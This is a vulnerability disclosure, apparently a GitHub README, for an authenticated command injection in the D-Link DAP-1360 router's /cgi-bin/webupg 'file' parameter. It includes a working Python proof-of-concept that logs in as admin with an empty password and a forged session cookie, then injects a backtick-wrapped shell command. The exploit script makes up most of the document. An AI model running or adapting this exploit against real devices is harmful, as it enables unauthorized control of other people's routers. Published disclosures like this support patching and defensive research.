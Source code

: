 # D-Link DAP-1360 Authorization Remote Command Execution
An authorization command injection vulnerability about DAP-1360

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DAP-1360(F1): <=v6.10
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DAP/dap1360/Firmware/Hardware%20Version%20F/
## The detail of vulnerability
In the "webupg" binary, because of the lack of parameter verification, attackers can use "file" parameters to execute arbitrary system commands after obtaining authorization.

#### Vulnerability trigger function
`UPGCGI_CreateDir`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/1.png)

`UPGCGI_Delete`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/2.png)

`UPGCGI_ModifyMac`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/3.png)

`Burpsuite intercept`
![image](https://github.com/tgp-top/DAP-1360/blob/220154515d7b765ecc8daffd6c990ba45df4735f/%E5%9B%BE%E7%89%87/4.png)

## POC
<sup> 




    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import requests, urllib3, sys, re
    import base64

    from urllib3.exceptions import ConnectTimeoutError
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    from urllib.parse import urlencode
    import os
    import telnetlib

    proxy = {
            "http": "http://127.0.0.1:8080"
        }
    def login(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      print (ipaddr)
      post_data = {
          "getpage": "html/index.html",
          "errorpage": "html/main.html",
          "var:menu": "setup",
        "var:page": "wizard",
        "var:login": "true",
        "obj-action": "auth",
        ":username": "admin",
        ":password": "",
        ":action": "login",
        ":sessionid": "3f412f91"
      }
      headers1 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "http://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "http://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      headers2 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "https://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "https://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      try:
        url1 = 'http://' + phost + '/cgi-bin/webproc'
        r1 = requests.post(url1, data=post_data, headers=headers1, allow_redirects=False,proxies=proxy, timeout=10)
        if r1.status_code==302:
          print ("Login success!")
        elif r1.text=="":
          exit(0)
      except Exception:
        try:
          url2 = 'https://' + phost + '/cgi-bin/webproc'
          r2 = requests.post(url2, data=post_data, headers=headers2,verify=False,allow_redirects=False,proxies=proxy,timeout=10)
          if r2.status_code==302:
            print ("Login success!")
          elif r2.text=="":
            exit(0)
        except Exception:
          print("ConnectTimeout")
          exit(0)


    def execCmd(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      payload = "`busybox`"
      post_data = {
          "name": "createdir", 
        "file":  payload 
      }
      headers = {
            "Host": phost,
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://" + phost,
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36",
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Referer": "http://" + phost + "/cgi-bin/webupg",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=45.240.248.137; langmanulset=yes; sys_UserName=admin; language=en_us; expires=Mon, 31-Jan-2050 16:00:00 GMT",
        "Connection": "close"
                    }
      url = "http://" + phost + "/cgi-bin/webupg"
      r = requests.post(url, data=post_data, headers=headers,allow_redirects=False, proxies=proxy)
      string = r.status_code
      print (r.headers)


    def main():
      if (len(sys.argv) != 2):
        print("[*] Usage: ruckus151021.py <RHOST>")
        print("[*] <RHOST> -> Target IP")
        print("[*] Example: python {} 192.168.2.1")
        exit(0)

      phost = sys.argv[1]
      login(phost)
      execCmd(phost)

    if __name__ == "__main__":
        main()



</sup>


## Demo
[![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://www.youtube.com/watch?v=4maJK6R3n8I)


  
  
  
